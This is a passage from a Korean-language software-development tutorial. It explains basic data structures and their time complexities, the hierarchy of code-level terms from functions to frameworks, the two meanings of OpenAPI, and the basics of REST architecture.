* **단점**: 선언할 때 크기를 미리 정해야 하는 고정 크기(정적 배열의 경우)인 경우가 많고, 중간에 데이터를 삽입하거나 삭제할 때 뒤쪽의 모든 원소를 한 칸씩 밀거나 당겨야 하므로 **`O(N)`**의 비용이 듭니다.

```
배열: 연속된 메모리 공간
┌────────┬────────┬────────┬────────┬────────┐
│  인덱스 0 │  인덱스 1 │  인덱스 2 │  인덱스 3 │  인덱스 4 │
│   10   │   20   │   30   │   40   │   50   │
└────────┴────────┴────────┴────────┴────────┘
  0x1000   0x1004   0x1008   0x100C   0x1010   <-- 메모리 주소 (4바이트씩 연속)
```

##### ② 연결 리스트 (Linked List)
* **특징**: 데이터가 물리적으로 연속된 공간에 있을 필요가 없습니다. 각 데이터(노드, Node)가 자신의 값과 함께 **"다음 데이터가 위치한 메모리 주소(포인터)"**를 함께 들고 있습니다.
* **종류**: 단일 연결 리스트(Single), 양방향 연결 리스트(Doubly), 원형 연결 리스트(Circular)
* **장점**: 중간에 새로운 노드를 끼워 넣거나 삭제할 때 앞뒤 노드의 포인터 연결선만 뚝 떼어 이어주면 되므로 삽입/삭제가 매우 빠릅니다(`O(1)`). 크기가 고정되지 않고 필요할 때마다 동적으로 늘어납니다.
* **단점**: 3번째, 100번째 데이터를 보려면 첫 번째 노드부터 포인터를 타고 줄줄이 따라가야 하므로 탐색 속도가 느립니다(`O(N)`). 포인터를 저장하기 위한 추가 메모리 오버헤드가 발생하며, 메모리 분산으로 인해 CPU 캐시 지역성(Cache Locality)의 이점을 누리기 어렵습니다.

```
연결 리스트: 포인터로 엮인 불연속 메모리 노드들
┌──────┬────┐      ┌──────┬────┐      ┌──────┬────┐
│ 값:10│ 주소├───► │ 값:20│ 주소├───► │ 값:30│NULL│
└──────┴────┘      └──────┴────┘      └──────┴────┘
 [0x1040 노드]      [0x2080 노드]      [0x1010 노드]
```

##### ③ 스택 (Stack)
* **원리**: **후입선출(LIFO, Last In First Out)**. 가장 마지막에 들어간 데이터가 가장 먼저 나오는 구조입니다.
* **비유**: 바닥부터 차곡차곡 쌓아 올린 프링글스 감자칩 통, 책상 위에 쌓아둔 책 더미.
* **주요 연산**: `push`(데이터 넣기), `pop`(가장 위의 데이터 꺼내기), `peek`(가장 위의 데이터 엿보기). 모두 `O(1)`.
* **실무 활용 사례**:
  * 프로그램 실행 시 함수의 호출과 복귀 주소를 추적하는 **콜 스택(Call Stack)**
  * 웹 브라우저의 **뒤로 가기(Back)** 기능
  * 에디터의 **실행 취소(Ctrl + Z / Undo)** 기능
  * 수식 괄호 유효성 검사(`{ ( [ ] ) }`)

```
스택 (LIFO) 연산:
     |     |            |  3  |  <-- TOP (마지막 추가, 가장 먼저 나감: Pop)
     |     |   Push 3   |  2  |
     |  1  |  ───────►  |  1  |
     └─────┘            └─────┘
```

##### ④ 큐 (Queue)
* **원리**: **선입선출(FIFO, First In First Out)**. 가장 먼저 줄을 선 데이터가 가장 먼저 나가는 구조입니다.
* **비유**: 놀이공원의 롤러코스터 대기줄, 은행 번호표 창구.
* **주요 연산**: `enqueue`(뒤에 줄 서기), `dequeue`(맨 앞사람 나가기). 모두 `O(1)`.
* **실무 활용 사례**:
  * 프린터 출력 대기열(스풀러)
  * 운영체제의 프로세스 CPU 스케줄링(준비 큐)
  * 서버 아키텍처의 메시지 큐(RabbitMQ, Apache Kafka, AWS SQS)
  * 웹 서버의 트래픽 트랜잭션 버퍼

---

#### (2) 비선형 자료구조 (Non-linear Data Structures)
데이터가 일렬로 나열되지 않고, 하나의 데이터 뒤에 여러 개의 데이터가 연결되는 계층적(1:N) 또는 망형(N:M) 구조입니다.

##### ① 트리 (Tree)와 이진 탐색 트리 (BST)
* **트리 (Tree)**: 뿌리(Root)에서 시작하여 가지가 뻗어나가듯 잎(Leaf)으로 이어지는 상하 위계 구조입니다. 부모-자식 관계가 명확하며, 순환(Cycle)이 존재하지 않습니다.
  * *용어*: 루트 노드(최상위), 리프 노드(자식이 없는 끝단), 깊이(루트로부터의 거리), 높이(트리의 최대 깊이).
  * *실제 예*: 컴퓨터 파일 시스템(폴더-하위폴더 구조), HTML의 DOM(Document Object Model) 트리.
* **이진 탐색 트리 (BST, Binary Search Tree)**: 모든 노드가 최대 2개의 자식을 가지며, **"왼쪽 자식 노드는 부모보다 작고, 오른쪽 자식 노드는 부모보다 크다"**는 규칙을 엄격히 지킵니다.
  * 탐색 속도: 균형이 잘 잡힌 경우 절반씩 후보군을 버릴 수 있어 **`O(log N)`**의 놀라운 속도를 자랑합니다. 1,000,000개의 데이터 중 원하는 값을 약 20번의 비교만으로 찾아냅니다.
  * 주의점(편향 트리): 오름차순으로 정렬된 데이터(1, 2, 3, 4, 5...)가 차례로 들어오면 한쪽으로만 길게 늘어져 연결 리스트와 다를 바 없는 `O(N)`으로 성능이 추락합니다. 이를 방지하기 위해 스스로 균형을 맞추는 **AVL 트리, 레드-블랙 트리(Red-Black Tree)**가 고안되어 데이터베이스 엔진과 언어 내장 맵(Map/Set)의 뼈대로 사용됩니다.

```
       [ 이진 탐색 트리 (BST) ]
                 50  (Root)
               /    \
             30      70
            /      /  \
           20  40  60  80
     (부모보다 작음)  (부모보다 큼)
```

##### ② 힙 (Heap)과 우선순위 큐 (Priority Queue)
* **특징**: **최댓값이나 최솟값을 `O(1)`만에 빠르게 찾아내기 위해** 완전 이진 트리 형태로 구현된 자료구조입니다.
  * **최대 힙(Max Heap)**: 부모 노드의 키값이 항상 자식 노드보다 크거나 같습니다. 루트 노드가 전체 최댓값입니다.
  * **최소 힙(Min Heap)**: 부모 노드의 키값이 항상 자식 노드보다 작거나 같습니다. 루트 노드가 전체 최솟값입니다.
* **연산 시간**: 삽입 `O(log N)`, 최댓값/최솟값 삭제 `O(log N)`, 단순 조회 `O(1)`.
* **실무 활용**: 응급실 환자 우선순위 처리, 운영체제의 작업 스케줄링, 다익스트라(Dijkstra) 최단 경로 알고리즘 등에서 **우선순위 큐(Priority Queue)**를 구현하는 핵심 엔진입니다.

##### ③ 그래프 (Graph)
* **특징**: 정점(Vertex/Node)과 그 정점들을 잇는 간선(Edge)으로 구성된 망형(Network) 네트워크 자료구조입니다. 부모-자식 위계가 없으며 순환(Cycle)이 발생할 수 있습니다.
* **종류**: 무방향 그래프, 방향 그래프, 가중치 그래프(간선에 통행료나 거리가 적힌 그래프).
* **표현 방식**:
  * 인접 행렬(Adjacency Matrix): 2차원 배열을 활용. 두 정점 간의 연결 여부를 `O(1)`에 확인하지만 `O(V²)`의 메모리를 소모.
  * 인접 리스트(Adjacency List): 각 정점에 연결된 이웃 정점들을 연결 리스트로 관리. 메모리 효율적.
* **실무 활용**: 네비게이션 도로망 최단 경로 탐색, 페이스북/인스타그램의 친구 추천 네트워크, 웹 페이지 간의 하이퍼링크 구조(구글의 페이지랭크 알고리즘).

---

### 3. 자료 구조별 시간 복잡도(Big-O) 요약 및 선택 가이드

| 자료 구조 | 평균 접근(Access) | 평균 탐색(Search) | 평균 삽입(Insertion) | 평균 삭제(Deletion) | 추천 활용 상황 |
| :--- | :---: | :---: | :---: | :---: | :--- |
| **배열 (Array)** | **`O(1)`** | `O(N)` | `O(N)` | `O(N)` | 데이터 크기가 일정하고 인덱스로 빠른 조회가 필요할 때 |
| **연결 리스트 (Linked List)** | `O(N)` | `O(N)` | **`O(1)`** | **`O(1)`** | 중간 삽입과 삭제가 빈번하며 크기가 수시로 변할 때 |
| **스택 (Stack)** | `O(N)` | `O(N)` | **`O(1)`** | **`O(1)`** | 가장 최근에 들어온 데이터를 먼저 처리해야 할 때 (LIFO) |
| **큐 (Queue)** | `O(N)` | `O(N)` | **`O(1)`** | **`O(1)`** | 도착한 순서대로 차례대로 처리해야 할 때 (FIFO) |
| **이진 탐색 트리 (균형)** | **`O(log N)`** | **`O(log N)`** | **`O(log N)`** | **`O(log N)`** | 정렬 상태를 유지하면서 빠른 탐색과 삽입/삭제가 필요할 때 |
| **해시 테이블 (Hash Table)** | **`O(1)`** | **`O(1)`** | **`O(1)`** | **`O(1)`** | Key-Value 쌍으로 즉각적인 초고속 데이터 매핑이 필요할 때 |
| **힙 (Heap)** | `O(N)` | `O(N)` | **`O(log N)`** | **`O(log N)`** | 실시간으로 최댓값 또는 최솟값을 계속 뽑아내야 할 때 |

> **[실무 선택 원칙]**  
> 1. "조회 빈도가 압도적으로 높다" ➔ **배열(Array)** 또는 **해시 테이블(Hash Table)**  
> 2. "앞뒤나 중간에서 데이터가 쉴 새 없이 끼어들고 빠진다" ➔ **연결 리스트(Linked List)**  
> 3. "우선순위가 가장 높은 녀석부터 순서대로 처리해야 한다" ➔ **힙(Heap)**  
> 4. "데이터 간의 다대다 관계나 이동 경로를 분석해야 한다" ➔ **그래프(Graph)**

---

## 02 함수, 클래스, 객체와 인스턴스, 모듈과 라이브러리, 컴포넌트, 프레임워크

개발 입문자나 주니어 개발자를 가장 혼란스럽게 만드는 것 중 하나가 바로 쏟아지는 **개발 용어의 위계와 경계**입니다. "함수랑 메서드는 뭐가 다르지?", "객체와 인스턴스는 같은 말인가?", "라이브러리와 프레임워크의 진짜 차이는 뭐지?"

이 용어들은 독립적으로 흩어져 있는 것이 아니라, **코드의 가장 작은 단위(마이크로)부터 거대한 시스템 아키텍처 단위(매크로)까지 차곡차곡 포개지는 계층적 포함 관계**를 이루고 있습니다.

```
┌────────────────────────────────────────────────────────────────────────┐
│ [아키텍처 단위] 프레임워크 (Framework)                                │
│   전체 흐름과 생명주기를 통제하는 뼈대                                 │
│  ┌──────────────────────────────────────────────────────────────────┐  │
│  │ [재사용 단위] 컴포넌트 (Component) / 라이브러리 (Library)         │  │
│  │   독립적인 기능 묶음 및 교체 가능한 부품                           │  │
│  │  ┌────────────────────────────────────────────────────────────┐  │  │
│  │  │ [파일/패키지 단위] 모듈 (Module)                          │  │  │
│  │  │   관련된 코드들을 파일 하나로 묶어둔 캡슐화 단위           │  │  │
│  │  │  ┌──────────────────────────────────────────────────────┐  │  │  │
│  │  │  │ [설계 및 실체 단위] 클래스 (Class) & 객체 (Object)   │  │  │  │
│  │  │  │   데이터(상태)와 기능(행위)을 결합한 청사진과 메모리 실체 │  │  │  │
│  │  │  │  ┌────────────────────────────────────────────────┐  │  │  │  │
│  │  │  │  │ [코드 실행 단위] 함수 (Function)               │  │  │  │  │
│  │  │  │  │   입력을 받아 출력을 내놓는 최소 실행 블록     │  │  │  │  │
│  │  │  │  └────────────────────────────────────────────────┘  │  │  │  │
│  │  │  └──────────────────────────────────────────────────────┘  │  │  │
│  │  └────────────────────────────────────────────────────────────┘  │  │
│  └──────────────────────────────────────────────────────────────────┘  │
└────────────────────────────────────────────────────────────────────────┘
```

### 1. 코드 레벨의 단위: 함수, 클래스, 객체, 인스턴스

#### (1) 함수 (Function) vs 메서드 (Method)
* **함수 (Function)**: 특정 작업(연산)을 수행하기 위해 입력을 받아 결과를 반환하는 **독립적인 코드 블록**입니다. 어떤 객체에도 소속되지 않고 스스로 존재할 수 있습니다.
* **메서드 (Method)**: **클래스 또는 객체 내부에 종속되어 있는 함수**를 특별히 부르는 말입니다. 객체의 상태(멤버 변수)에 접근하여 그 객체의 행동을 대변합니다.

```python
# 독립 함수 (Function)
def calculate_tax(price):
    return price * 0.1

# 클래스와 메서드 (Method)
class Account:
    def __init__(self, balance):
        self.balance = balance  # 상태 (변수)

    def deposit(self, amount):  # 메서드 (객체 내부의 함수)
        self.balance += amount
        return self.balance
```

#### (2) 클래스 (Class) vs 객체 (Object) vs 인스턴스 (Instance)
이 셋의 차이는 수많은 기술 면접의 단골 질문입니다.

* **클래스 (Class)**: 객체를 만들어내기 위한 **설계도(Blueprint)** 혹은 **틀**입니다. "어떤 데이터(속성)를 가질 것이며, 어떤 동작(메서드)을 할 수 있는가?"를 코드로 정의한 추상적 개념입니다. 메모리를 차지하지 않는 텍스트 파일 상태입니다.
* **객체 (Object)**: 현실 세계나 개념적 세계의 사물을 소프트웨어 안에서 표현한 모든 것을 포괄하는 가장 넓은 철학적 용어입니다.
* **인스턴스 (Instance)**: 설계도(클래스)를 바탕으로 **컴퓨터 메모리(RAM)에 실제로 실체화되어 할당된 실체**를 지칭합니다. "클래스와의 관계"를 강조할 때 주로 사용합니다.

> **[붕어빵 비유로 끝내는 완벽한 구분]**  
> * **클래스 (Class)**: 붕어빵을 찍어내는 쇠붙이 **틀 (설계도)**  
> * **인스턴스 (Instance)**: 그 틀에 반죽과 팥을 붓고 구워내어 내 손바닥 위에 올려진 **뜨끈뜨끈한 붕어빵 한 개 (메모리 실체)**  
> * **객체 (Object)**: "붕어빵", "슈크림빵" 등 세상에 존재하는 모든 대상물을 일컫는 **포괄적 개념**  
> 
> *"슈크림 붕어빵은 붕어빵틀(클래스)의 인스턴스(Instance)이며, 하나의 객체(Object)입니다."*

---

### 2. 패키징과 배포 레벨의 단위: 모듈, 라이브러리, 컴포넌트

#### (1) 모듈 (Module)
* 한 파일(`.py`, `.js`, `.java`) 안에 연관된 함수, 클래스, 변수들을 모아둔 **독립적인 코드 파일**입니다.
* 코드가 수만 줄로 길어지는 것을 방지하고, 성격에 맞게 파일 단위로 쪼개어(관심사의 분리) 다른 파일에서 `import`나 `require`로 불러와 쓸 수 있도록 만듭니다.

#### (2) 라이브러리 (Library)
* 여러 개의 모듈들을 모아 특정 기능 영역을 해결할 수 있도록 묶어놓은 **"소프트웨어 도서관 / 공구 상자"**입니다.
* 개발자는 필요한 순간에 라이브러리에서 책을 빌려오듯, 혹은 공구 상자에서 망치를 꺼내 쓰듯 자신이 작성하는 프로그램 안으로 라이브러리 함수를 직접 호출(Call)하여 사용합니다.
* *예*: 수학 계산 라이브러리(NumPy), 날짜 계산 라이브러리(Moment.js, date-fns), HTTP 통신 라이브러리(Requests, Axios).

#### (3) 컴포넌트 (Component)
* 단순한 코드 조각을 넘어, **독립적으로 배포 및 실행될 수 있고 다른 부품과 쉽게 교체 가능한 비즈니스/화면 완성 부품**입니다.
* 재사용성이 극대화되어 있으며, 내부 구현을 알지 못해도 정해진 인터페이스(입출력 규칙)만 맞추면 레고 블록처럼 끼워 넣을 수 있습니다.
* *프론트엔드*: React의 `<LoginModal />`, `<Navbar />`와 같은 UI 컴포넌트
* *백엔드/인프라*: 마이크로서비스 아키텍처(MSA)에서 독립적으로 동작하는 '결제 서비스 컴포넌트', '인증 컴포넌트'

---

### 3. 아키텍처 레벨의 단위: 프레임워크 (Framework)

* 애플리케이션의 뼈대와 규칙, 동작 흐름을 미리 완성해 둔 **"거대한 소프트웨어 작업 프레임(틀)"**입니다.
* *예*: Spring Boot(Java), Django(Python), NestJS(Node.js), Angular(Web).

#### ★ 라이브러리 vs 프레임워크의 결정적 차이: 제어의 역전 (IoC, Inversion of Control)
두 개념의 차이를 가르는 단 하나의 기준은 바로 **"코드의 실행 흐름(주도권)을 누가 쥐고 있는가?"**입니다.

```
[ 라이브러리 (Library) ]                     [ 프레임워크 (Framework) ]
  개발자가 흐름을 주도함                       프레임워크가 흐름을 주도함 (IoC)

 ┌──────────────────────┐                     ┌──────────────────────┐
 │ 내가 작성한 코드      │                     │     프레임워크       │
 │                      │                     │  (전체 생명주기 관리) │
 │  myFunction()        │                     │                      │
 │     │                │                     │   framework.start()  │
 │     ▼ (내가 직접 호출)│                     │          │           │
 │  Library.util()      │                     │          ▼ (내 코드를 부름)
 └──────────────────────┘                     │   myCustomCode()     │
                                              └──────────────────────┘
 "내가 필요할 때 라이브러리를 부른다"            "프레임워크가 알아서 내 코드를 실행한다"
 (개발자가 능동적 주체)                         (헐리우드 원칙: Don't call us, we'll call you)
```

* **라이브러리를 쓸 때**: 개발자가 프로그램의 전체 흐름을 작성합니다. 자동차를 운전하는 운전자가 필요할 때 내비게이션(라이브러리)을 켜고 음악(라이브러리)을 틉니다. 주도권은 개발자에게 있습니다.
* **프레임워크를 쓸 때**: 프레임워크가 자동차의 차체, 엔진, 운전 시스템을 이미 다 통제하고 있습니다. 개발자는 정해진 규격의 엔진오일을 붓거나, 프레임워크가 "여기에 비즈니스 로직을 작성하시오"라고 뚫어둔 구멍(Hook, 어노테이션, 컨트롤러 메서드)에 자신의 코드를 채워 넣을 뿐입니다.

---

### 4. 핵심 개발 용어 완벽 비교 매트릭스

| 개념 | 계층 레벨 | 실행 주도권 | 일상 세계 비유 | 대표적인 예시 |
| :--- | :--- | :---: | :--- | :--- |
| **함수 (Function)** | 마이크로 (코드) | 개발자 | 요리 레시피의 '양파 다지기' 지침 | `Math.sqrt()`, `print()` |
| **클래스 (Class)** | 마이크로 (설계) | - | 붕어빵을 찍어내는 금형 틀 | `class User { ... }` |
| **인스턴스 (Instance)** | 마이크로 (실체) | - | 갓 구워져 나온 팥 붕어빵 하나 | `const userA = new User();` |
| **모듈 (Module)** | 메조 (파일 단위) | 개발자 | 주방 도구 정리함의 '칼 보관함' | `user_service.py`, `utils.js` |
| **라이브러리 (Library)** | 매크로 (도구 묶음) | 개발자 | 목공용 전동 공구 상자 | Python `Requests`, JS `Lodash` |
| **컴포넌트 (Component)** | 매크로 (완성 부품) | 인터페이스 | 규격화된 레고 블록, 교체형 오디오 유닛 | React `<Header />`, 결제 모듈 |
| **프레임워크 (Framework)** | 아키텍처 (시스템) | **프레임워크 (IoC)** | 완제품 조립 라인 컨베이어 벨트 | Java `Spring`, Python `Django` |

---

## 03 API vs OpenAPI

현대 소프트웨어 개발은 네트워크를 통해 시스템과 시스템이 대화하는 시대입니다. 이 대화의 중심에 언제나 존재하는 단어가 바로 **API**입니다. 하지만 현업에서는 API라는 단어 외에도 'OpenAPI', 'Open API', 'Swagger' 등의 단어가 마구 뒤섞여 사용되어 초심자를 크게 당혹스럽게 만듭니다.

```
                  ┌────────────────────────────────────────┐
                  │                 API                    │
                  │   시스템 간의 모든 상호작용 인터페이스   │
                  │  ┌──────────────────────────────────┐  │
                  │  │         Web API (HTTP)           │  │
                  │  │  ┌────────────────────────────┐  │  │
                  │  │  │ Open API (공개형 웹 API)    │  │  │
                  │  │  │ (공공데이터, 카카오맵 API) │  │  │
                  │  │  └────────────────────────────┘  │  │
                  │  └──────────────────────────────────┘  │
                  └────────────────────────────────────────┘
                                      ▲
                                      │ 표준 규격으로 문서화
                  ┌───────────────────┴────────────────────┐
                  │     OpenAPI Specification (OAS)        │
                  │      (구 Swagger 명세 표준)            │
                  └────────────────────────────────────────┘
```

### 1. API란 무엇인가?

API는 **Application Programming Interface**의 약자입니다.
* **Application**: 고유한 기능을 수행하는 소프트웨어 프로그램
* **Programming**: 프로그래밍 언어로 제어할 수 있는
* **Interface**: 서로 다른 두 실체가 만나 소통하기 위한 **접점, 규격, 약속**

#### '인터페이스(Interface)'의 본질
일상생활에서 가장 흔한 인터페이스는 **벽면의 220V 콘센트**나 **자동차 운전대와 페달**입니다.
우리는 발전소에서 전기가 석탄으로 만들어지는지 원자력으로 만들어지는지 알 필요가 없습니다. 그저 220V 플러그라는 규격(인터페이스)에 맞추어 전자제품 코드를 꽂으면 전기를 공급받습니다. 운전자 역시 보닛 안쪽의 엔진과 변속기 내부 톱니바퀴 구조를 몰라도, 핸들을 돌리고 액셀 페달을 밟는 인터페이스만 조작하면 차를 움직일 수 있습니다.

#### 식당의 메뉴판과 웨이터 비유
소프트웨어에서 API를 이해하는 가장 완벽한 비유는 **고급 레스토랑의 웨이터와 메뉴판**입니다.

```
 [ 손님 ]                   [ 웨이터 & 메뉴판 ]                   [ 주방장 ]
(Client)                         (API)                            (Server)

  ┌─────┐    1. 메뉴판 보고 주문     ┌─────────┐    2. 주문서 주방 전달    ┌─────┐
  │     ├────────────────────────► │         ├────────────────────────► │     │
  │     │                          │   API   │                          │ DB  │
  │     │ ◄────────────────────────┤         │ ◄────────────────────────┤     │
  └─────┘     4. 요리 가져다 줌      └─────────┘    3. 요리 완성하여 건넴  └─────┘
```

1. **손님 (클라이언트/앱)**: 맛있는 음식을 먹고 싶지만, 주방에 직접 들어가 가스 불을 켜거나 고기를 썰 권한이 없습니다.
2. **메뉴판과 웨이터 (API)**: 손님이 주문할 수 있는 목록(메뉴)과 가격, 요청 방식이 적혀 있습니다. 손님이 웨이터에게 메뉴판의 규칙대로 "스테이크 미디엄으로 하나 주세요"라고 요청(Request)하면, 웨이터는 이 주문을 주방에 전달합니다.
3. **주방장 (서버/데이터베이스)**: 주문을 받아 냉장고를 열고 요리를 완성합니다.
4. **응답 (Response)**: 웨이터는 완성된 스테이크 요리를 손님 식탁으로 깔끔하게 서빙합니다.

결국 API란 **"내부의 복잡한 구현은 숨겨둔 채, 외부에서 안전하고 규격화된 방식으로 데이터나 기능을 요청할 수 있도록 열어둔 공식 창구"**입니다.

---

### 2. API의 다양한 형태

API는 반드시 인터넷 웹 통신만을 의미하지 않습니다.
1. **운영체제 API (OS API)**: Windows의 Win32 API, Linux의 POSIX 시스템 콜. 프로그램이 모니터 화면에 창을 띄우거나 하드디스크에 파일을 쓸 때 운영체제 커널에 요청하는 인터페이스.
2. **프로그래밍 언어 / 라이브러리 API**: Java API, Python 표준 라이브러리 API. `Math.random()`, `array.sort()`처럼 라이브러리가 제공하는 함수 목록.
3. **웹 API (Web API)**: 인터넷 네트워크(HTTP 프로토콜)를 통해 서로 다른 서버와 클라이언트가 데이터를 주고받는 원격 인터페이스. 오늘날 개발자들이 "API"라고 말할 때의 90% 이상은 바로 이 웹 API를 뜻합니다.

---

### 3. OpenAPI의 두 가지 의미 완벽 정리

"OpenAPI"라는 단어를 들었을 때 개발자들이 서로 다른 맥락으로 대화하여 오해가 생기는 경우가 많습니다. OpenAPI는 맥락에 따라 **전혀 다른 두 가지 의미**를 가집니다.

#### 의미 ①: OpenAPI Specification (OAS, 구 Swagger 규격)
* **정의**: RESTful 웹 API를 어떻게 설계하고, 문서화하고, 테스트할 것인가에 대한 **세계 표준 명세 형식(Specification)**입니다.
* **역사**: 원래 '스마트베어(SmartBear)'라는 회사가 개발한 **Swagger(스웨거)**라는 프레임워크 명세였으나, 2015년 리눅스 재단 산하의 OpenAPI Initiative에 기증되면서 공식 명칭이 **OpenAPI Specification(OAS)**으로 표준화되었습니다.
* **특징**: YAML이나 JSON 파일 형식으로 엔드포인트 URL, HTTP 메서드, 요청 파라미터, 응답 데이터 구조, 에러 코드 등을 기계가 읽을 수 있는(Machine-readable) 표준 형식으로 작성합니다.
* 이를 기반으로 Swagger UI 도구가 멋진 웹 문서와 테스트 샌드박스를 자동으로 생성해 줍니다.

```yaml
# OpenAPI 3.0 명세서 예시 (openapi.yaml)
openapi: 3.0.0
info:
  title: 사용자 관리 API
  version: 1.0.0
paths:
  /users/{userId}:
    get:
      summary: 사용자 상세 정보 조회
      parameters:
        - name: userId
          in: path
          required: true
          schema:
            type: integer
      responses:
        '200':
          description: 조회 성공
          content:
            application/json:
              schema:
                type: object
                properties:
                  id: { type: integer }
                  name: { type: string }
```

#### 의미 ②: 오픈 API (공개형 웹 API, Public Open API)
* **정의**: 네이버, 카카오, 구글, 공공데이터 포털(data.go.kr) 등 기업이나 정부 기관이 **자신들이 보유한 데이터와 플랫폼 기능을 외부 개발자 누구나 가져다 쓸 수 있도록 대외적으로 전면 무료/유료 공개한 API**를 말합니다.
* *예*: 카카오 로그인 API, 네이버 지도 API, 기상청 전국 날씨 정보 Open API, 버스 실시간 도착 정보 Open API.
* 대부분 무분별한 남용과 트래픽 폭주를 막기 위해 회원가입 후 **API 키(API Key)**를 발급받아 요청 헤더에 첨부하도록 요구합니다.

---

### 4. API vs OpenAPI(OAS) vs Open API(공개 API) 종합 비교

| 구분 | API (Application Programming Interface) | OpenAPI Specification (OAS) | Open API (공개 API / Public API) |
| :--- | :--- | :--- | :--- |
| **개념의 성격** | 인터페이스의 총칭 (철학/개념) | **API 문서화 및 설계 표준 규격** | **누구나 쓸 수 있게 공개된 웹 서비스 창구** |
| **비유** | 모든 종류의 메뉴판과 웨이터 시스템 | 메뉴판을 작성하는 **국제 표준 글양식** | 길거리 누구나 들어올 수 있는 **공개 무료 식당** |
| **주요 대상** | 내부 시스템, OS, 라이브러리, 웹 등 전체 | RESTful 웹 API의 엔드포인트와 스키마 | 외부 서드파티 개발자, 스타트업, 공공 |
| **핵심 키워드** | 캡슐화, 추상화, 계약(Contract) | Swagger, YAML/JSON, 자동화 도구 | API Key, 트래픽 제한(Rate Limit), 공공데이터 |
| **대표 예시** | POSIX API, Java Standard API | OpenAPI 3.0, Swagger UI | 공공데이터포털 버스정보, 카카오맵 API |

---

## 04 REST API vs RESTful API

웹 개발 생태계에서 가장 오용되고 왜곡되는 단어 중 하나가 바로 **REST(Representational State Transfer)**입니다. 많은 개발자들이 "JSON을 주고받는 HTTP 엔드포인트면 다 REST API 아닌가요?"라고 생각하지만, REST의 창시자가 본다면 고개를 가로저을 것입니다.

```
       [ 로이 필딩(Roy Fielding)의 REST 아키텍처 스타일 ]
                              │
     ┌────────────────────────┴────────────────────────┐
     ▼                                                 ▼
[ 실무의 대부분 (HTTP API / Pragmatic REST) ]       [ 엄격한 진정한 REST (RESTful) ]
  • HTTP 메서드 활용 (GET, POST, PUT, DELETE)       • HTTP API의 모든 조건 만족
  • 자원 중심의 명사형 URI 설계                       • + 완벽한 자기서술적 메시지 (Self-descriptive)
  • JSON 데이터 포맷 교환                            • + 링크를 통한 동적 상태 전이 (HATEOAS)
  (현재 시중 95%의 기업이 구현한 현실적 타협점)        (웹 브라우저 시스템이 대표적 예시)
```

### 1. REST의 탄생 배경

REST는 2000년, 웹의 표준(HTTP 1.0/1.1, URI)을 정립한 주역 중 한 명인 **로이 필딩(Roy Fielding)**의 박사 학위 논문에서 처음 제안되었습니다.

그는 당시 폭발적으로 팽창하던 월드 와이드 웹(WWW)이 어떻게 수많은 컴퓨터와 서버 사이에서 충돌 없이 유연하게 확장될 수 있었는지를 분석했습니다. 그리고 **"이미 세계적으로 훌륭하게 깔려 있는 웹의 장점(HTTP 인프라, 캐싱, 무상태성)을 온전히 활용하여 클라이언트와 서버를 완전히 독립적으로 진화시킬 수 있는 아키텍처 스타일"**을 정립했는데, 이것이 바로 REST입니다.

---

### 2. REST의 3대 핵심 구성 요소

REST 아키텍처는 세 가지 요소로 명쾌하게 표현됩니다.

```
 [ 자원 (Resource) ]        [ 행위 (Verb) ]           [ 표현 (Representation) ]
      URI                     HTTP Method                     JSON / XML
 "무엇에 대해?"             "무슨 동작을 할 것인가?"       "어떤 형태로 주고받을 것인가?"
  /users/42                    DELETE                   { "success": true }
```

1. **자원 (Resource) - URI (Uniform Resource Identifier)**
   * 조작하고자 하는 모든 대상(사용자, 주문, 상품 등)은 고유한 식별자(URI)를 가집니다.
   * *규칙*: 명사(Noun)를 사용하며, 복수형(Plural)을 권장합니다. 행위(동사)는 URI에 넣지 않습니다.
   * 좋은 예: `GET /members`, `GET /members/1`
   * 나쁜 예: `GET /getMembers`, `POST /deleteMemberById?id=1` (행위를 URI에 노출)

2. **행위 (Verb) - HTTP Method**
   * 자원에 대해 수행할 동작은 HTTP 표준 메서드를 통해 명시합니다.
   * **GET**: 자원의 조회 (안전함, 멱등성 보장)
   * **POST**: 새로운 자원의 생성 (비멱등성)
   * **PUT**: 자원의 전체 교체/수정 (멱등성 보장)
   * **PATCH**: 자원의 일부 수정 (일반적으로 비멱등적일 수 있음)
   * **DELETE**: 자원의 삭제 (멱등성 보장)

3. **표현 (Representation)**
   * 클라이언트와 서버가 데이터를 주고받을 때 표현되는 형태입니다. 과거에는 XML이 대세였으나, 현재는 가볍고 직관적인 **JSON(JavaScript Object Notation)**이 절대적 표준으로 자리 잡았습니다.

---

### 3. REST 아키텍처의 6대 제약조건

REST는 프로그래밍 언어나 프로토콜이 아니라 일련의 **'아키텍처 제약조건(Architectural Constraints)'**입니다. 이 제약조건을 모두 준수해야 REST 아키텍처 스타일을 따랐다고 말할 수 있습니다.

1. **클라이언트-서버 구조 (Client-Server)**: 사용자 인터페이스(UI)와 데이터 저장소(DB/비즈니스)를 엄격히 분리하여 양쪽이 독립적으로 개발 및 진화할 수 있어야 합니다.
2. **무상태성 (Stateless)**: 서버는 클라이언트의 이전 상태(세션 컨텍스트 등)를 저장하지 않습니다. 모든 요청은 그 요청 자체만으로 완결되어야 하며, 필요한 모든 정보를 요청 안에 담아야 합니다. 이를 통해 서버 확장이 수월해집니다.
3. **캐시 가능 (Cacheable)**: 모든 웹 응답은 캐시가 가능한지 여부를 HTTP 헤더(`Cache-Control`)로 명시하여 대규모 트래픽에서 대역폭을 절약하고 응답 시간을 줄여야 합니다.
4. **계층화 시스템 (Layered System)**: 클라이언트는 자신이 최종 서버에 붙었는지, 중간의 프록시, 로드밸런서, API 게이트웨이에 붙었는지 알 수 없어야 하며, 다중 계층 보안 및 확장이 가능해야 합니다.
5. **코드 온 디맨드 (Code-on-Demand, 선택사항)**: 서버가 클라이언트에 실행 가능한 코드(예: JavaScript)를 전송하여 클라이언트의 기능을 일시적으로 확장할 수 있습니다.
6. **일관된 인터페이스 (Uniform Interface)**: 아키텍처를 단순하게 만들고 시스템을 분리하기 위한 가장 핵심적인 제약조건입니다.

---

### 4. RESTful의 엄밀한 정의: Self-descriptive & HATEOAS

"RESTful"이란 **"REST 아키텍처의 제약조건을 철저하고 충실하게(Full) 지킨 상태"**를 의미하는 형용사입니다.

그런데 오늘날 수많은 기업들이 만드는 소위 "REST API"는 Uniform Interface의 가장 중요한 두 가지 하위 조건을 거의 지키지 못하고 있습니다. 로이 필딩은 블로그를 통해 *"REST API라고 부르려면 반드시 하이퍼텍스트(HATEOAS) 기반이어야 한다"*며 일침을 가하기도 했습니다.

#### (1) 자기서술적 메시지 (Self-descriptive Messages)
* 메시지(HTTP 요청과 응답) 스스로가 자신이 무엇이며, 어떻게 해석해야 하는지 완벽하게 설명할 수 있어야 합니다.
